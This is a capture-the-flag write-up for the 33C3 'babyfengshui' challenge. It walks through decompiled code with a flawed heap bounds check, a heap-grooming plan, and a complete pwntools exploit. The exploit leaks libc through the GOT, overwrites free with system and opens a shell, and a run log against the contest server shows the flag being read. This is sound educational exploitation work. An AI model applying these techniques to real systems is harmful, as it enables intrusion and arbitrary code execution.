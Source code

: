 ```yaml
---
layout: post
title: 33C3 - BabyFengShui
published: True
---
```


{% highlight bash %}
babyfengshui: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=cecdaee24200fe5bbd3d34b30404961ca49067c6, stripped
{% endhighlight %}

{%highlight bash %}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

## Vulnerability ##

Each time a user is added, two chunks are `malloc()`'d for the user, as we can see in the function `add_user()`.
{% highlight C%}
void *__cdecl add_user(size_t description_size)
{
  int v1; // ST2C_4@1
  void *description; // ST24_4@1
  void *user; // ST28_4@1
  void *result; // eax@1
  int v5; // ecx@1

  v1 = *MK_FP(__GS__, 20);
  description = malloc(description_size);
  memset(description, 0, description_size);
  user = malloc(0x80u);
  memset(user, 0, 0x80u);
  *(_DWORD *)user = description;
  *(&user_array + (unsigned __int8)num_users) = user;
  printf("name: ");
  write_chunk((char *)*(&user_array + (unsigned __int8)num_users++) + 4, 124);
  update_description(num_users - 1);
  result = user;
  v5 = *MK_FP(__GS__, 20) ^ v1;
  return result;
}
{% endhighlight %}

In the heap, this looks something like the following. 

![](../img/babyfengshui-1.png)

**Notice that the first dword of each user's name chunk is a pointer to the user's description chunk.**

Additionally, when we update a user's description, the program checks to verify that the description's length does not cause it to overflow from the user's description chunk into the user's name chunk. 

If it does, the program outputs "my l33t defenses cannot be fooled, cya!" and exits. Otherwise, it calls `fgets()` and copies a user-specified number of bytes into the chunk's description chunk. 

{% highlight C %}
int __cdecl update_description(unsigned __int8 index)
{
  char v2; // [sp+17h] [bp-11h]@3
  int v3; // [sp+18h] [bp-10h]@3
  int v4; // [sp+1Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  if ( index < (unsigned __int8)num_users && *(&user_array + index) )
  {
    v3 = 0;
    printf("text length: ");
    __isoc99_scanf("%u%c", &v3, &v2);
    if ( v3 + *(_DWORD *)*(&user_array + index) >= (unsigned int)((char *)*(&user_array + index) - 4) )
    {
      puts("my l33t defenses cannot be fooled, cya!");
      exit(1);
    }
    printf("text: ");
    write_chunk(*(char **)*(&user_array + index), v3 + 1);
  }
  return *MK_FP(__GS__, 20) ^ v4;
}
{% endhighlight %}

{% highlight C %}
int __cdecl write_chunk(char *dest, int num_bytes)
{
  char *v3; // [sp+18h] [bp-10h]@1
  int v4; // [sp+1Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  fgets(dest, num_bytes, stdin);
  v3 = strchr(dest, 0xA);
  if ( v3 )
    *v3 = 0;
  return *MK_FP(__GS__, 20) ^ v4;
}
{% endhighlight %}

**This check is flawed.** 

This check only works if a user's description and name chunks are contiguous to each other in the heap.

But, what if we were able to allocate a user's chunks in a way such that a user's description and name chunks were far away from each other?

![](../img/babyfengshui-2.png)

That would allow us to overwrite anything in between the user's description chunk and name chunk, including other valid heap chunks, introducing a heap overflow vulnerability.

We can actually "massage" the heap into this state by using the following flow.

1. allocate user A
	* small description (size 0)
	* normal name (size 0x80)
1. allocate user B
	* small description (size 0)
	* normal name (size 0x80)
1. free user A
1. allocate user C
	* **large description (size 0x20)**
	* normal name (size 0x80)

The reason this flow will force user C's description chunk and name chunk to be separated is because user C's description chunk is allocated first.
Once it is reallocated from user A's old description chunk, there will not be enough space left to reallocate user A's name chunk to service chunk C's name chunk request, since chunk C's description is bigger than chunk A's. 

**We can then leverage this heap overflow vulnerability to overwrite chunk B's *pointer-to-description-chunk* pointer to give us both arbitrary read and arbitrary write privileges!** 

We get an arbitrary read because we can print out a user's description and the process for that involves first dereferencing the *pointer-to-description-chunk* pointer and printing the data stored at that memory address.

Similarly, we can get an arbitrary write when we update a user's description because the process for that involves first dereferencing the *pointer-to-description-chunk* pointer and writing user controlled data to the dereferenced address.

Using the two exploit primitives, we put together the following plan.

1. massage the heap
	1. *see aforementioned flow* 
1. libc/GOT leak
	1. overwrite pointer in chunkB_name w/ __libc_start_main@GOT
	1. print chunkB to get __libc_start_main@libc
	1. calculate system@libc
1. GOT overwrite 
	1. overwrite pointer in chunkB_name w/free@GOT
	1. edit description of chunkB
	1. input system@libc
1. write "/bin/sh\0" to heap
	1. allocate another chunk w/any description size
	1. set description to "/bin/sh\0"
1. call system("/bin/sh\0") 
	1. free chunk index 3

Putting everything together, we are able to get a shell using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def add(desc_size, name, text_len, text):
    r.sendline("0")
    r.recvuntil(": ")
    r.sendline(str(desc_size))
    r.recvuntil(": ")
    r.sendline(name)
    r.recvuntil(": ")
    r.sendline(str(text_len))
    r.recvuntil(": ")
    r.sendline(text)
    r.recvuntil("Action: ")

def delete(index):
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.recvuntil("Action: ")

def display(index, parse = False):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(index))
    if parse == False:
        r.recvuntil("Action: ")   
    else:
        return r.recvuntil("Action: ")

def update(index, text_len, text):
    r.sendline("3")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.recvuntil(": ")
    r.sendline(str(text_len))
    r.recvuntil(": ")
    r.sendline(text)
    r.recvuntil("Action: ")
    
def exploit(r):
    r.recvuntil("Action: ")
    
    ### ALLOCATE 2 CHUNKS ###
    add(0,"AAAA",11,"BBB")
    add(0,"AAAA",11,"BBB")
    
    ### DELETE CHUNK A ###
    delete(0)

    ### REALLOCATE CHUNK A ###
    user_array =  0x804b080
    payload  = "A"*152
    payload += p32(user_array+4) #user_array[1] # overwrites pointer to chunk_B's desc
    add(32,"AAAA",160,payload)    

    ### HEAP LEAK ###
    chunk_b = u32(display(1, True).split(": ")[2][:4])
    log.success("Heap chunk leaked: " + hex(chunk_b))
   
    ### CHANGE DESCRIPTION  ###
    libc_start_main =  0x804b030
    payload  = "A"*152
    payload +=  p32(libc_start_main)# user_array[1] # overwrites pointer to chunk_B's desc
    update(2, 160, payload)
    
    ### LIBC LEAK ###
    libc_start_main = u32(display(1, True).split(": ")[2][:4])
    log.success("__libc_start_main@GOT leaked: " + hex(libc_start_main))
    libc_base = libc_start_main-0x19970    
    log.success("libc base leaked: " + hex(libc_base))
    system = libc_base+0x3e3e0
    log.success("system@libc leaked: " + hex(system))
    
    ### CHANGE DESCRIPTION  ###
    free_got = 0x804b010
    payload  = "A"*152
    payload +=  p32(free_got)# user_array[1] # overwrites pointer to chunk_B's desc
    update(2, 160, payload)

    '''
    gdb-peda$ x/32xw 0x804b00c
    0x804b00c:      0x080484e6      0x080484f6      0x08048506      0x08048516
    0x804b01c:      0x08048526      0x08048536      0x08048546      0x08048556
    0x804b02c:      0x08048566      0xf7619990      0x08048586      0x08048596
    '''

    ### OVERWRITE free@GOT w/ system@libc ###
    fgets_plt=0x8048506 # bcus of trailing null byte, need to restore fgets@GOT or it will crash!
    update(1, 8, p32(system)+p32(fgets_plt)) # let null byte corrupt alarm()
    
    ### ADD CHUNK WITH "/bin/sh\0" name ###
    add(123,"/bin/sh\0",11,"/bin/sh\0")
    
    ### FREE CHUNK INDEX 3 ### 
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline("3") 

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        #r = process(['/home/rh0gue/Documents/33c3/babyfengshui'], env={"LD_PRELOAD":"./libc-2.19.so"})
        r = process(['/home/rh0gue/Documents/33c3/babyfengshui'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight bash%}
rh0gue@vexillum:~/Documents/33c3$ python solve.py 78.46.224.83 1456
[*] For remote: solve.py HOST PORT
[+] Opening connection to 78.46.224.83 on port 1456: Done
[+] Heap chunk leaked: 0x80f70b0
[+] __libc_start_main@GOT leaked: 0xf75fe970
[+] libc base leaked: 0xf75e5000
[+] system@libc leaked: 0xf76233e0
[*] Switching to interactive mode
$ id
uid=1000(fengshui) gid=1000(fengshui) groups=1000(fengshui)
$ ls
babyfengshui
flag.txt
$ cat flag.txt
33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1
$  
{% endhighlight %}
